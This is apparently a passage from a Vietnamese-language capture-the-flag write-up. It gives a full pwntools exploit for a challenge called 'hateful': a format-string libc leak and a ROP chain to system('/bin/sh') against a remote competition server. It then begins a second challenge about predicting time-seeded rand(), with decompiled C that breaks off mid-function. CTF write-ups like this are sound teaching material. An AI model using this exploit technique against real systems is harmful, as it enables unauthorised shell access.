 script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hateful_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
#p = process()
p = remote('52.59.124.14',5020)

p.sendlineafter(b'>> ',b'yay')

p.sendlineafter(b'>> ',b'%171$p')
offset = 0x27305
pop_rdi = 0x00000000000277e5
p.recvuntil(b'email provided: ')
libc.address = int(p.recvline()[:-1],16) - offset
log.info(f'libc: {hex(libc.address)}')

pl = b'a'*1016 + p64(pop_rdi+libc.address) + p64(next(libc.search(b'/bin/sh\x00')))
pl += p64(pop_rdi+1+libc.address) + p64(libc.sym.system)
p.sendlineafter(b'now please provide the message!',pl)

p.interactive()
```

## mr_unlunky ( rand )

###  reverse 

bài này thì đơn giản là ta sẽ tận dụng vuln của rand , khi có seed chính xác thì mọi giá trị random ra ta đều biết được 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int i; // [rsp+8h] [rbp-38h]
  int v6; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("I have always been unlucky. I can't even win a single game of dota2 :(");
  puts("however, I heard that this tool can lift the curse that I have!");
  puts("YET I CAN'T BEAT IT'S CHALLENGE. Can you help me guess the names?");
  v3 = time(0LL);
  srand(v3);
  sleep(3u);
  puts(
    "Welcome to dota2 hero guesser! Your task is to guess the right hero each time to win the challenge and claim the aegis!");
  for ( i = 0; i <= 49; ++i )
  {
    v6 = rand() % 20;
    printf("Guess the Dota 2 hero (case sensitive!!!): ");
    fgets(s, 30, stdin);
    s[strcspn(s, "\n")] = 0;
    if ( strcmp(s, (&heroes)[v6]) )
```
